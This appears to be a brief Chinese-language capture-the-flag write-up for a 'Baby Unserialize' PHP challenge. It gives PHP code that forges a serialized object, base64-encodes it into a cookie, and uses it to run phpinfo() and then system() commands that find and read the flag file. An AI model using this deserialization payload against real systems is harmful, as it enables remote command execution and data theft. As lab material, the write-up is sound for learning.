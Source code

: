 ### Baby Unserialize

伪造一个$user对象，序列化后base64编码，作为cookie访问页面

先试试phpinfo();

```php
<?php
class sshctf{
    public $in = true;
    public $cmd = "phpinfo();";
}

$cookie = base64_encode(serialize(new sshctf()));
echo $cookie;
?>
# Tzo2OiJzc2hjdGYiOjI6e3M6MjoiaW4iO2I6MTtzOjM6ImNtZCI7czoxMDoicGhwaW5mbygpOyI7fQ==
```

成功pass，将`$cmd`的值设为`system('find / -name *flag*')`，得到flag在/usr/local/etc/flag.txt

执行`system('cat /usr/local/etc/flag.txt')`，得到flag

![unserial](imgs/unserial.png)
